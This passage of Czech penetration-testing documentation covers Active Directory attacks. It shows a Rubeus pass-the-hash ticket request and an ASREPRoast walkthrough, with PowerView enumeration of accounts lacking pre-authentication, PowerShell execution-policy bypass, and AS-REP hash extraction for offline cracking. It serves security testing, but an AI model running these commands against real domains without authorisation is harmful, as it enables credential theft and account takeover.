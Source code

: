Získat TGS tiket nástrojem [Rubeus](https://github.com/GhostPack/Rubeus):
```
Rubeus.exe asktgt /user:<uzivatel> /domain:<domena> /rc4:<NTML hash hesla>
```
### Testem lze odhalit tyto zranitelnosti

- [Constrained Delegation)](vulnerabilities.md)

## ASREPRoast

### Popis testu

Pokud je deaktivováno Pre-Authentication tak, že je nastavena politika Accounts Does not Require Pre-Authentication, přesněji DONT_REQ_PREAUTH, jejímž zneužitím lze žádat o TGT tikety. To je možné díky možnosti na KDC odesílat požadavky AS_REQ a získat zpětně odpovědi AS_REP. Data jsou zašifrována tajným klíčem uživatelů odvozeného z jejich hesel. Cílem testu je ověřit nastavení DONT_REQ_PREAUTH, pokusit se TGT získat a následně lámat uživatelská hesla offline. 

### Jak provést test manuálně

**Enumerace (Windows)**

Naklonovat repozitář s **powerview.ps1** :
```
git clone https://github.com/PowerShellEmpire/PowerTools.git
```
Možnost přímeho stažení z:
https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Import PowerView:
```
powershell.exe -nop -exec bypass

Import-Module <cesta k powerview.ps1>
```

Získat všechny uživatele s nastaveným DONT_REQ_PREAUTH:
```
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

**Exploitace (Windows)**

Stáhnout a importovat modul [SREPRoast](https://github.com/HarmJ0y/ASREPRoast):
```
git clone https://github.com/HarmJ0y/ASREPRoast.git

cd ASREPRoast

powershell.exe -nop -exec bypass

Import-Module .\ASREPRoast.ps1
```

Extrahování hashů uživatelských účtů:
```
Get-ASRepHash -Domain <adresa domeny> -UserName <uzivatelske jmeno>
```
